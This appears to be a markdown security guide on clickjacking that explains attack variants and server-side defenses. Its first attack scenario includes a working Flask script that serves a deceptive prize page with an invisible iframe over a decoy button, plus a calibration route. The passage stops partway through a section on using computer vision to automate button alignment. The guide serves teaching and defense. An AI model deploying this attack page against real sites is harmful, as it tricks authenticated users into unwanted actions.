









# Clickjacking (UI Redressing)

## Table of Contents

1. [Overview Diagram](#overview-diagram)
2. [Introduction and Core Concepts](#introduction-and-core-concepts)
   - [Definition](#definition)
   - [How the Attack Works](#how-the-attack-works)
   - [Impact](#impact)
   - [Attack Vectors](#attack-vectors)
3. [Defense Principles](#defense-principles)
   - [Core Protection Principles](#core-protection-principles)
   - [When and Where to Apply Defenses](#when-and-where-to-apply-defenses)
4. [Mitigation Strategies](#mitigation-strategies)
   - [Primary Mitigation: Content Security Policy (CSP) frame-ancestors](#primary-mitigation-content-security-policy-csp-frame-ancestors)
   - [Secondary Mitigation: X-Frame-Options Header](#secondary-mitigation-x-frame-options-header)
   - [Client-Side Defenses: Frame Busting Scripts](#client-side-defenses-frame-busting-scripts)
   - [Additional Security Measures](#additional-security-measures)
   - [Implementation Considerations](#implementation-considerations)
5. [Real-World Attack Scenarios](#real-world-attack-scenarios)
   - [Scenario 1: Social Media Like/Follow Hijacking](#scenario-1-social-media-likefollow-hijacking)
   - [Scenario 2: Banking Payment Authorization](#scenario-2-banking-payment-authorization)
   - [Scenario 3: Account Settings Manipulation](#scenario-3-account-settings-manipulation)
   - [Scenario 4: Multi-Step Form Submission Attack](#scenario-4-multi-step-form-submission-attack)


---

## Overview Diagram



### Key Relationships

| Connection | Description |
|------------|-------------|
| **Attack Types → Variants** | Clickjacking is the parent attack with specialized variants (Likejacking, Cursorjacking, Filejacking, Double Clickjacking) targeting specific actions |
| **Vectors → Attack Types** | Transparent iframes and overlay elements are the technical enablers that make clickjacking possible |
| **Context → Vectors** | Malicious websites host the attack infrastructure; phishing emails and social media drive traffic to these sites |
| **Attack Types → Impacts** | Successful attacks result in unauthorized actions, data theft, account compromise, and financial losses |
| **Defenses → Vectors** | CSP frame-ancestors and X-Frame-Options prevent iframe embedding; frame busting detects embedding attempts |

---

## Introduction and Core Concepts

### Definition

**Clickjacking** (also known as **UI Redressing**) is a malicious technique in which an attacker tricks a user into clicking on something different from what the user perceives, potentially revealing confidential information or taking control of their computer while clicking on seemingly innocuous objects, including web pages.

The attack exploits the browser's ability to embed external content (typically through HTML iframes) and layer it invisibly over a deceptive interface. The victim believes they are interacting with a visible page but are actually clicking on hidden elements from a legitimate, targeted website where they may already be authenticated.

> [!IMPORTANT]
> Clickjacking is classified under **CWE-1021: Improper Restriction of Rendered UI Layers or Frames** and is listed in the OWASP Top 10 under **A05:2021 – Security Misconfiguration**.

### How the Attack Works

The clickjacking attack operates through a multi-layer deception technique:

1. **Target Identification**: The attacker identifies a sensitive action on a target website (e.g., "Transfer Funds", "Delete Account", "Change Email")

2. **Malicious Page Construction**: The attacker creates a web page that:
   - Embeds the target website in a transparent or hidden iframe
   - Positions the target's sensitive button directly under a visible, attractive element
   - Uses CSS properties like `opacity: 0`, `z-index`, and precise positioning

3. **Victim Luring**: The attacker lures the victim to the malicious page through:
   - Phishing emails
   - Social engineering
   - Malicious advertisements
   - Compromised websites

4. **Invisible Interaction**: When the victim clicks on the visible element (e.g., "Claim Your Prize"), they actually click on the hidden target button, executing the attacker's intended action

5. **Session Exploitation**: Since the victim is already authenticated on the target site (cookies are sent automatically), the action is executed with the victim's privileges

### Impact

Clickjacking attacks can result in severe consequences:

| Impact Category | Description | Severity |
|----------------|-------------|----------|
| **Financial Loss** | Unauthorized fund transfers, purchases, or payment authorizations | Critical |
| **Account Takeover** | Password or email changes, security setting modifications | Critical |
| **Data Breach** | Exposure of personal information, privacy violations | High |
| **Reputation Damage** | Unauthorized social media posts, likes, or follows | Medium |
| **Malware Installation** | Triggering drive-by downloads or plugin installations | High |
| **Privilege Escalation** | Granting permissions to malicious applications | High |

### Attack Vectors

Clickjacking attacks utilize various technical vectors:

| Vector | Technique | Description |
|--------|-----------|-------------|
| **Classic Clickjacking** | Transparent iframe overlay | Target site rendered in invisible iframe over malicious visible content |
| **Likejacking** | Social media targeting | Hijacking social media "Like" or "Follow" buttons for spam propagation |
| **Cursorjacking** | Cursor displacement | Displaying a fake cursor offset from the real cursor position |
| **Filejacking** | File dialog manipulation | Tricking users into selecting files for unauthorized upload |
| **Double Clickjacking** | Double-click exploitation | Using the first click to reposition elements before the second click |
| **Drag-and-Drop Hijacking** | HTML5 drag-drop abuse | Exploiting drag-and-drop operations to move data to attacker-controlled areas |
| **Stroke Jacking** | Keyboard input capture | Capturing keystrokes by focusing hidden input fields under visible buttons |

---

## Defense Principles

### Core Protection Principles

Effective clickjacking defense is built on these fundamental principles:

1. **Frame Control**: Explicitly declare whether and how your content can be embedded in frames
   - Adopt a "deny by default" approach
   - Whitelist only trusted origins when framing is legitimately required

2. **Defense in Depth**: Implement multiple layers of protection
   - Server-side headers as primary defense
   - Client-side frame detection as secondary measure
   - UI design considerations as tertiary protection

3. **Least Privilege**: Sensitive actions should require additional verification
   - Re-authentication for critical operations
   - Out-of-band confirmation for high-risk actions
   - Time-delayed or multi-step processes

4. **Session Integrity**: Ensure session context matches expected interaction patterns
   - Implement anti-CSRF tokens alongside anti-clickjacking measures
   - Use SameSite cookie attributes to limit cross-origin abuse

### When and Where to Apply Defenses

| Scenario | Recommended Defense Level | Justification |
|----------|--------------------------|---------------|
| **All pages** | CSP frame-ancestors | Baseline protection should be universal |
| **Authentication pages** | Strict deny + additional verification | Login/logout pages are high-value targets |
| **Payment/Financial actions** | Strict deny + re-authentication | Financial operations require maximum protection |
| **Account settings** | Strict deny | Settings changes can lead to account takeover |
| **Public embeddable widgets** | Selective allow with CSP | Must whitelist specific trusted origins |
| **APIs and non-UI endpoints** | Headers still recommended | Defense in depth even for non-HTML responses |

> [!WARNING]
> Clickjacking protections should be applied at the server level. Client-side-only defenses can be bypassed and should only serve as supplementary measures.

---

## Mitigation Strategies

### Primary Mitigation: Content Security Policy (CSP) frame-ancestors

The `frame-ancestors` directive in CSP is the modern, recommended approach to prevent clickjacking. It specifies valid parents that may embed a page using frame, iframe, object, or embed elements.

**How It Works**:
- Server sends CSP header with `frame-ancestors` directive
- Browser checks if the current page's parent is in the allowed list
- If not allowed, the browser refuses to render the page in the frame

**Directive Values**:

| Value | Effect |
|-------|--------|
| `'none'` | Prevents all framing (most restrictive) |
| `'self'` | Only allows framing by the same origin |
| `https://trusted.com` | Allows framing only by the specified origin |
| `https://*.trusted.com` | Allows framing by any subdomain of the specified domain |

**Advantages**:
- More flexible than X-Frame-Options
- Supports multiple origins
- Supports wildcards for subdomains
- Part of the broader CSP security framework
- Cannot be bypassed by double-framing attacks

**Limitations**:
- Not supported by very old browsers (IE 11 and below)
- Requires careful configuration to avoid breaking legitimate embedding

### Secondary Mitigation: X-Frame-Options Header

X-Frame-Options is the legacy method for clickjacking protection. While superseded by CSP frame-ancestors, it provides important backward compatibility.

**Directive Values**:

| Value | Effect |
|-------|--------|
| `DENY` | Prevents all framing |
| `SAMEORIGIN` | Only allows framing by the same origin |
| `ALLOW-FROM uri` | Allows framing only by the specified URI (deprecated, limited support) |

**Best Practice**: Deploy both headers for maximum compatibility:
- Use CSP `frame-ancestors` as primary defense
- Include X-Frame-Options as fallback for older browsers

> [!NOTE]
> When both headers are present, CSP `frame-ancestors` takes precedence in browsers that support it.

### Client-Side Defenses: Frame Busting Scripts

Frame busting scripts attempt to detect when a page is being framed and break out of the frame. While not reliable as a sole defense, they provide defense in depth.

**Common Techniques**:
- Checking `window.self !== window.top`
- Attempting to redirect the top window to the framed page
- Hiding page content when framing is detected

**Limitations**:
- Can be bypassed using iframe sandbox attributes
- May be disabled by browser extensions
- JavaScript-dependent (fails if JS is blocked)
- Double-framing attacks can circumvent simple checks

> [!CAUTION]
> Never rely on frame busting scripts as your only protection. Attackers can neutralize them using `sandbox="allow-scripts"` in the iframe, which prevents the script from accessing `window.top`.

### Additional Security Measures

| Measure | Description | Effectiveness |
|---------|-------------|---------------|
| **SameSite Cookies** | Set `SameSite=Strict` or `SameSite=Lax` to prevent cookies from being sent in cross-site framing contexts | High |
| **Re-authentication** | Require password or MFA for sensitive actions | High |
| **User Interaction Verification** | CAPTCHA or deliberate user gestures before critical actions | Medium |
| **Referrer Validation** | Check that requests originate from expected sources | Medium |
| **UI Design** | Use distinctive, hard-to-replicate interfaces for sensitive actions | Low-Medium |

### Implementation Considerations

**Priority Order for Implementation**:

1. **CSP frame-ancestors** – Primary, modern defense
2. **X-Frame-Options** – Secondary, legacy compatibility
3. **SameSite Cookies** – Session protection layer
4. **Frame Busting** – Client-side supplementary defense
5. **Re-authentication** – High-value action protection

**Configuration Recommendations**:

| Application Type | Recommended Configuration |
|------------------|---------------------------|
| Internal applications | `frame-ancestors 'none'` |
| Public websites | `frame-ancestors 'none'` or `'self'` |
| Embeddable widgets | `frame-ancestors 'self' https://allowed-partner.com` |
| API endpoints | Include headers even on non-HTML responses |

> [!TIP]
> Test your configuration using browser developer tools. Check the Network tab to verify headers are correctly sent, and use the Console to catch any CSP violation reports.

---

## Real-World Attack Scenarios

### Scenario 1: Social Media Like/Follow Hijacking

**Context**: An attacker wants to artificially inflate their social media presence by hijacking the "Follow" button on a popular social platform.

#### Attack Flow

1. Attacker creates a malicious webpage disguised as a game or contest
2. The page contains a transparent iframe loading the target social media profile
3. The "Follow" button is precisely positioned under a visible "Play Now" button
4. Victims, already logged into the social platform, click "Play Now"
5. Their click actually triggers the hidden "Follow" button
6. The victim unknowingly follows the attacker's account



#### Attack Simulation Code

The following Python script demonstrates how an attacker might construct a clickjacking attack page for social media hijacking. This code is provided for **educational purposes only** to understand the attack mechanics.

```python
"""
Clickjacking Attack Simulation: Social Media Like/Follow Hijacking
===============================================================
EDUCATIONAL PURPOSE ONLY - For security research and awareness training.
This script generates a malicious HTML page that demonstrates clickjacking.

Libraries used:
- Flask: Lightweight web framework to serve the malicious page
- Jinja2: Template engine (included with Flask) for dynamic HTML generation
"""

from flask import Flask, render_template_string  # Flask for serving the attack page

# Initialize the Flask application that will serve our malicious page
app = Flask(__name__)

# HTML template for the clickjacking attack page
# This template creates the malicious overlay with hidden iframe
ATTACK_PAGE_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Win a Free iPhone!</title>  <!-- Deceptive title to lure victims -->
    <style>
        /* Container for the attack - positions elements for overlay */
        .attack-container {
            position: relative;  /* Establishes positioning context */
            width: 500px;
            height: 300px;
            margin: 100px auto;  /* Center the container on page */
        }
        
        /* The hidden iframe containing the target social media page */
        .hidden-iframe {
            position: absolute;  /* Position absolutely within container */
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: {{ opacity }};  /* Set to 0 for invisible, higher for testing */
            z-index: 2;  /* Place iframe ABOVE the visible content */
            border: none;  /* Remove iframe border to hide it */
            pointer-events: auto;  /* Ensure clicks are captured by iframe */
        }
        
        /* The visible decoy button that tricks the user */
        .decoy-button {
            position: absolute;  /* Position to align with target button */
            top: {{ button_top }}px;  /* Precise vertical alignment */
            left: {{ button_left }}px;  /* Precise horizontal alignment */
            width: 200px;
            height: 50px;
            background: linear-gradient(45deg, #ff6b6b, #ffa500);
            border: none;
            border-radius: 25px;
            color: white;
            font-size: 18px;
            cursor: pointer;
            z-index: 1;  /* Place BELOW the invisible iframe */
        }
        
        /* Attractive background to make page look legitimate */
        body {
            background: linear-gradient(135deg, #1a1a2e, #16213e);
            color: white;
            font-family: Arial, sans-serif;
        }
    </style>
</head>
<body>
    <h1 style="text-align: center;">🎉 Congratulations! You've Been Selected! 🎉</h1>
    <p style="text-align: center;">Click the button below to claim your FREE iPhone 15!</p>
    
    <div class="attack-container">
        <!-- Hidden iframe loads the target social media profile page -->
        <!-- The victim's browser will send cookies, authenticating them -->
        <iframe 
            class="hidden-iframe" 
            src="{{ target_url }}"
            sandbox="allow-scripts allow-same-origin allow-forms">
        </iframe>
        
        <!-- Visible decoy button positioned under the hidden Follow button -->
        <button class="decoy-button">🎁 CLAIM PRIZE NOW!</button>
    </div>
    
    <p style="text-align: center; font-size: 12px; color: #888;">
        *Limited time offer. Click now before it expires!
    </p>
</body>
</html>
"""

# Configuration for the attack - would be customized per target
ATTACK_CONFIG = {
    'target_url': 'https://social-media.example.com/profile/attacker123',  # Target profile URL
    'button_top': 150,  # Y-position where target's Follow button appears
    'button_left': 150,  # X-position where target's Follow button appears
    'opacity': 0.0  # Set to 0 for real attack, 0.3-0.5 for testing/debugging
}

@app.route('/')
def serve_attack_page():
    """
    Main route that serves the clickjacking attack page.
    In a real attack, this would be hosted on attacker-controlled domain.
    """
    # Render the attack template with configuration values
    return render_template_string(
        ATTACK_PAGE_TEMPLATE,
        target_url=ATTACK_CONFIG['target_url'],
        button_top=ATTACK_CONFIG['button_top'],
        button_left=ATTACK_CONFIG['button_left'],
        opacity=ATTACK_CONFIG['opacity']
    )

@app.route('/calibrate')
def calibration_mode():
    """
    Calibration route with visible iframe for precise button positioning.
    Attackers use this to align the decoy button with the target button.
    """
    # Increase opacity to see the iframe for positioning purposes
    return render_template_string(
        ATTACK_PAGE_TEMPLATE,
        target_url=ATTACK_CONFIG['target_url'],
        button_top=ATTACK_CONFIG['button_top'],
        button_left=ATTACK_CONFIG['button_left'],
        opacity=0.5  # Semi-transparent for calibration
    )

if __name__ == '__main__':
    # Run the malicious server on localhost for testing
    # In real attack, this would be deployed to a public server
    print("[!] EDUCATIONAL CLICKJACKING DEMO - Do not use maliciously")
    print("[*] Attack page available at: http://localhost:5000/")
    print("[*] Calibration mode at: http://localhost:5000/calibrate")
    app.run(host='127.0.0.1', port=5000, debug=True)
```

#### AI-ML-Enhanced Attack Techniques

**1. Computer Vision-Based Button Detection and Auto-Calibration**

Traditional clickjacking attacks require manual calibration to precisely position the decoy element over the target button, which is time-consuming and prone to errors when target websites update their layouts. Machine learning-based computer vision can automate this process entirely by using object detection models trained to identify interactive UI elements such as buttons, links, and form controls. A convolutional neural network (CNN) trained on datasets of web UI components can accurately locate the "Follow," "Like," or "Subscribe" buttons across different social media platforms with varying designs. The model can process screenshots of the target page in real-time and return the exact pixel coordinates where the clickable element resides. This automation allows attackers to dynamically adapt to UI changes without manually inspecting each target site. The system can be enhanced with OCR (Optical Character Recognition) to identify buttons by their text labels, such as "Follow @username" or "Like this post." Furthermore, the model can detect anti-clickjacking visual cues and adjust the attack strategy accordingly, such as 